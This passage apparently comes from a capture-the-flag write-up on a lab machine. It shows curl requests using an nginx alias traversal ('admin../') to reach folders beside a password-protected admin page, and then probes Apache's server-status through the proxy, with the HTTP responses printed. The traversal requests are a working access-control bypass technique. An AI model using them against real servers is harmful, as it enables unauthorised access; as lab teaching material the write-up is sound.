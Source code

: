     oxdf@parrot$ curl -I http://10.10.10.249/admin../index.html
    HTTP/1.1 404 Not Found
    Server: nginx/1.14.2
    Date: Sat, 17 Jul 2021 19:19:58 GMT
    Content-Type: text/html; charset=iso-8859-1
    Connection: keep-alive
    Vary: Accept-Encoding
    

Tricks to get back to `/admin` don’t help anything:

    
    
    oxdf@parrot$ curl -I http://10.10.10.249/admin../admin
    HTTP/1.1 401 Unauthorized
    Server: nginx/1.14.2
    Date: Sat, 17 Jul 2021 19:20:17 GMT
    Content-Type: text/html; charset=iso-8859-1
    Connection: keep-alive
    WWW-Authenticate: Basic realm="Authentication Required"
    

I took a guess that perhaps I could access the pokatdex part of the site, if
it were being served out of a folder named `pokatdex` in the same folder as
the admin page, and it worked:

    
    
    oxdf@parrot$ curl -I http://10.10.10.249/admin../pokatdex/
    HTTP/1.1 200 OK
    Server: nginx/1.14.2
    Date: Sat, 17 Jul 2021 19:20:27 GMT
    Content-Type: text/html; charset=UTF-8
    Connection: keep-alive
    Vary: Accept-Encoding
    
    oxdf@parrot$ curl -I http://10.10.10.249/admin../pokatdex/contact.php
    HTTP/1.1 200 OK
    Server: nginx/1.14.2
    Date: Sat, 17 Jul 2021 19:20:32 GMT
    Content-Type: text/html; charset=UTF-8
    Connection: keep-alive
    Vary: Accept-Encoding
    

Still, while that verifies I’m thinking about the configuration right, there’s
not much I can do with that.

Thinking about what else might be being served by Apache, I tried looking for
`server-status`. This is typically only accessible from localhost, but given
the NGINX proxy, the request will be coming from localhost. Trying to hit the
page directly doesn’t work (it would have been found by `feroxbuster`):

    
    
    oxdf@parrot$ curl -I http://10.10.10.249/server-status
    HTTP/1.1 404 Not Found
    Server: nginx/1.14.2
    Date: Tue, 30 Nov 2021 22:22:40 GMT
    Content-Type: text/html; charset=iso-8859-1
    Connection: keep-alive
    Vary: Accept-Encoding
    